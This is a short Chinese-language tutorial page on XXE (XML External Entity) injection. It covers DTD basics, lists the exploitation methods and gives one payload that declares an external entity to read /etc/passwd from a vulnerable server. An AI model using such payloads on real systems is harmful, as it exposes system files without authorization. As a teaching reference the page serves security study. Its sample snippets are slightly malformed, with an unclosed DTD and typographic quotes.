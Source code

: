 # EXP手册-XXE(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
前提条件：允许外部实体引用。   
入门：[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
## XXE漏洞利用
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的。
漏洞利用方法分：
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
读取本地文件payload示例：   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file://etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
